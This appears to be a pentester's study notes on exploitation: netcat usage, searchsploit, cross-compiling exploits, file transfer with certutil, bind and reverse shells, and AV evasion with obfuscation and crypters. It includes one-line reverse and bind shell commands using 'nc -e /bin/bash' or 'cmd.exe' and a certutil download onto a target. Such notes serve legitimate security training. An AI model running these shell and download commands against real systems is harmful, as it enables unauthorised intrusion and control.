

# EXPLOITATION

Techniques and tools used to gain an initial foothold on a target.
1. Identify vulnerable services
2. Identify and prepare exploit code
3. Gainin access
    - msfconsole
    - manual
4. Obtaining remote access
5. Bypass AV
6. Pivoting

## Banner Grabbing
Is a information gathering technique used to enumerate information of OS, services and ports of the target.
- Nmap
- Netcat
- Authetication with the service: ssh, ftp,...

**Notes**: In web applications try to find shellshock vulnerability
**Tip**: to find easily nmap scripts `ls -la /usr/share/nmap/script | grep <>`

## Searching exploits
- Exploit-db
- Rapid7
- packetstorm

### Searchsploit
Has the entire exploit-db database of exploits. Located in /usr/share/exploitdb/exploits.
```
searchsploit -u #updates
searchsploit -m <id> #detail info
searchsploit -c <id> #copy exploit to workin directory
searchsploit -t #help with searchs
searchsploit -w <id> #web page of exploit
searchsploit -e <id> #opens exploit to read and edit it
```
1. Copy exploit `searchsploit -c <id>`
2. Give executable permissions `chmod +x <>`
3. Execute eploit with python `python3 <exploit> <arguments if need it>`
4. If anything is not working edit with `vim <explit>`

## Cross compiling exploits
Process of compioling code for a platform other than the one performing the compilation (transform from the developed language to a portable executable or binary one)
To compile exploit code developed in C:
- For Linux: `gcc -pthread <file in C> -o <file name of the output> -laypt`
- For Windows from Linux: `i686-w64-mingw32-gcc <file in C> -o <file name of the output> -lws2_32` 

## Netcat
Working utilty used to read an write data to network connectios using TCP and UDP. Utilizes client-server communication with two modes:
- **Client mode**: to connect to any TCP/UDP ports
- **Server mode**: to listen for connections from clients
```
nc --help
man nc #manual
nc -v <ip> <port> #verbose
nc -u <ip> <port> #udp
nc -p <local port>> <ip> <destination port> 
nc -l <ip> <port>
nc -n #desable resolving domain names
nc -nv <ip> <port> < <file to send to that ip>
nc -nvlp <port> > <file> #redirects output of the listener to the file
```
Sending file from Linux to Windows:
1. Transfering the netcat executable in linux
`cd /usr/share/windows-binaries`
`python -m SimpleHTTPServer 80`
2.  Download executable in windows machine (target)
`certutil -urlcache -f https://<ip>/nc.exe nc.exe`

```
nc.exe -nvlp <port> > <file where data connectios are going to be saved>
```
**Listener**
`nc -nvlp <port>`
`nc -nvlpu <port>`

**Connection**
`nc.exe -nv <ip> <port>`
`nc.exe -nvu <ip> <port>`
`pythob -m SimpleHTTPServer 80`

## Bind shells
Remote shell where the attacker connects directly to a listener on the target system

**Attacker**
`nc -nv <ip> <port>`
`nc.exe -nv <ip> <port>`

**Target**
Set up to execute shell when clients connects:
`nc.exe -nvlp <port> -e cmd.exe`
`nc -nvlp <port> -e /bin/bash`

## Reverse shells
Target connects to attacker allowing command execution

**Attacker**
`nc -nvlp <port>`

**Target**
`nc -nv <ip> <port> -e /bin/bash`
`nc.exe -nv <ip> <port> -e /bin/bash`



**Notes**: payloadallthethings, revshelss.com

## Frameworks
- Powershell empire
- Starkiller

## Black box pentest
- Host discovery
- Port scanning & enumeration
- Vulnerability detection/scanning
- Expolitation
    - Manual
    - Automated
- Post exploitation
    - Privilege escalation
    - Persistence
    - Dumping hashes

## AV evasion with Shelter

To avoid detection throughout their compromise.
1. Signature based detection: unique sequence of bytes that nuiquely indentifies malware
2. Heuristic based detection: rules or decisions to determine wether ir malicious or not
3. Behavior based detection: monitoring behavior 

**Techniques**:
- Obfuscation: reorganizes code to make it harder to analyze
- Encoding: changing data unto new format
- Packing: generate executable with new binary structure with smaller size
- Crypters: encrypts code 
**Tools**: Shelter, Invoke-obfuscation


